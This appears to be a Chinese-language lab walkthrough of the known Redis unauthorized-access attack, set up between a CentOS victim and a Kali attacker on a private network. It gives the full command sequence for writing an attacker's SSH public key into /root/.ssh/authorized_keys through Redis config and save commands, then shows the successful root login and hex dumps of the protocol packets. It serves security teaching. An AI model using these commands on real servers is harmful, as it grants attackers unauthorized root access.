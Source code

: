 
# Redis未授权访问写入ssh公钥获取服务器访问权限

Refer：http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/

## step 1. 准备实验环境

|角色|操作系统|IP地址|
|----|--------|------|
|被攻击方|CentOS 6.5|192.168.188.132|
|攻击方|Kali 2.0|192.168.188.131|

操作：

1. 攻击方与被攻击方都是root用户。
2. 确保攻击方与被攻击方网络连通（ping）及清除iptables防火墙规则（iptables -F）。
3. 在CentOS中安装Redis 3.0.5，并运行（终端下输入以下命令）： 

下载，解压，编译:
```
$ wget http://download.redis.io/releases/redis-3.0.5.tar.gz
$ tar xzf redis-3.0.5.tar.gz
$ cd redis-3.0.5
$ make
```

二进制文件是编译完成后在src目录下. 运行如下:
```
$ src/redis-server
```

## step 2. 实施攻击前准备

1. 攻击方用ssh连接被攻击方，发现是需要密码登录。终端命令：ssh 192.168.188.132

![](ssh_fail.png)

2. 攻击方生成一对ssh公私钥。终端命令：ssh-keygen –t rsa

![](create_ssh_key.png)

## step 3. 攻击

攻击者将生成公钥保存到被攻击方的/root/.ssh/ authorized_keys

1. 攻击方访问被攻击方的Redis服务（若不指定端口，连接默认端口6379）。
```
redis-cli –h 192.168.188.132
```

2. 攻击者设置被攻击方Redis的默认路径及数据库缓存文件。
```
config set dir /root/.ssh
config set dbfilename authorized_keys
```

3. 攻击者设置在被攻击方Redis设置一个字符串，用来保存公钥。
```
set CrackR  “\n\n\n+生成的公钥+\n\n\n”
```

4. 攻击者保存数据快照到硬盘，即上一步的字符串CrackR保存到/
root/.ssh/ authorized_keys.

```
save
```

5. 退出。

```
exit
```

![](attack.png)


## step 4. 验证攻击

1. 攻击方用ssh连接被攻击方，成功登录。
```
ssh 192.168.188.132
```
![](ssh_success.png)


## 攻击流程图

![](attack_flow.png)


## Redis 通信报文分析

Redis使用TCP协议进行传输，默认开放端口6379，且默认无需授权便可登录。
1. Redis数据在TCP包数据部分，以*开头，后面跟着的数字代表Redis整个命令的字符串个数。
2. 以0x0d，0x0a作为分隔符
3. 将命令中的字符串分开，以单个字符串作为处理单元，转变为 $+数字（字符串长度）+分隔符+字符串+分隔符。


### config set dir /root/.ssh 设置Redis的默认路径

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 33 0d 0a 64 69 72  $3..set..$3..dir
0020   0d 0a 24 31 30 0d 0a 2f 72 6f 6f 74 2f 2e 73 73  ..$10../root/.ss
0030   68 0d 0a                                         h..
```

### config set dbfilename authorized_keys 设置数据库缓存文件

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 31 30 0d 0a 64 62  $3..set..$10..db
0020   66 69 6c 65 6e 61 6d 65 0d 0a 24 31 35 0d 0a 61  filename..$15..a
0030   75 74 68 6f 72 69 7a 65 64 5f 6b 65 79 73 0d 0a   uthorized_keys..
```

### set xxxx "\n\n\nssh-rsa key_pub\n\n\n"  设置一个字符串

```
0000   2a 33 0d 0a 24 33 0d 0a 73 65 74 0d 0a 24 36 0d  *3..$3..set..$6.
0010   0a 43 72 61 63 6b 52 0d 0a 24 34 30 31 0d 0a 0a  .CrackR..$401...
0020   0a 0a 73 73 68 2d 72 73 61 20 41 41 41 41 42 33  ..ssh-rsa AAAAB3
0030   4e 7a 61 43 31 79 63 32 45 41 41 41 41 44 41 51  NzaC1yc2EAAAADAQ
```


